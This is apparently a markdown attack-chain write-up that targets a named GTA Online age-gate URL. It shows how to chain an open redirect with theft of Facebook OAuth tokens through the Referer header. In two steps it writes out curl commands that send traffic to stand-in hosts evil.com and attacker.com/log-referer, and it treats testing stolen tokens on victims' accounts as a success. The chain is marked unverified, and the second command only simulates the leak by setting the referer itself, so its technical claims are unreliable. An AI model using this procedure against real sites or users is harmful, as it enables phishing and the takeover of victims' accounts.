

# Open Redirect in GTA Online Age-Gate Leading to Facebook OAuth Token Theft

Multi-stage attack chain demonstrating exploitation of an open redirect in the GTA Online age-gate form to redirect users to arbitrary sites and steal sensitive Facebook OAuth tokens via the Referer header, enabling unauthorized account access.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or proxy like Burp Suite for inspecting redirects

### Target Environment

- Web platform
- Access to the GTA Online sub-site at https://www.rockstargames.com/GTAOnline/restricted-content/agegate/form
- No specific ports or services beyond standard HTTPS (443)

### Initial Access Requirements

- Public access to the website (no credentials needed)
- Ability to craft URLs with redirect parameters
- Victim interaction required for token theft (e.g., user clicking a malicious link while logged into Facebook)

## Detailed Attack Procedures

### Step 1: Identify and Test Open Redirect
procedure: [[procedures/Exploit-Open-Redirect-in-Age-Gate]]

**Objective**: Locate the vulnerable age-gate form and confirm the open redirect by manipulating the redirect parameter to point to an arbitrary external site.

**Instructions**: Navigate to the target URL and inspect the form for redirect parameters (e.g., 'next' or similar). Use a browser or curl to test redirection to a controlled domain like http://example.com.

Execute [[commands/curl-test-open-redirect]] to verify the vulnerability:

```bash
curl -L "https://www.rockstargames.com/GTAOnline/restricted-content/agegate/form?next=http://evil.com" -v
```

**Expected Output**: The response shows a 302 redirect to http://evil.com without validation.

**Success Indicators**:
- Redirect occurs to the attacker-controlled URL
- No error or blocking on external domains

### Step 2: Steal Facebook OAuth Token
procedure: [[procedures/Steal-Facebook-OAuth-Token-via-Referer]]

**Objective**: Leverage the open redirect to create a phishing link that, when clicked by a victim authenticated with Facebook, leaks the OAuth token in the Referer header to the attacker's site.

**Instructions**: Craft a malicious link pointing to the vulnerable endpoint with the redirect parameter set to the attacker's logging server. Host a page on the attacker's domain that triggers a Facebook OAuth flow or inspects Referer headers.

Use [[commands/curl-simulate-phish-link]] to simulate sending the phishing link:

```bash
curl -X GET "https://www.rockstargames.com/GTAOnline/restricted-content/agegate/form?next=http://attacker.com/log-referer" --referer "https://www.facebook.com/dialog/oauth?access_token=FAKE_TOKEN"
```

Monitor the attacker's server for incoming Referer headers containing the real token.

**Expected Output**: Attacker's server logs show Referer header with Facebook OAuth token if victim is authenticated.

**Success Indicators**:
- Referer header captured with sensitive token data
- Potential unauthorized access to victim's Facebook account confirmed by testing the token

## Attack Chain Summary

### Key Achievements

1. Confirmed open redirect in age-gate form allowing arbitrary redirects
2. Demonstrated potential for phishing via trusted Rockstar domain
3. Enabled theft of Facebook OAuth tokens leading to account compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Credentials In Files]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
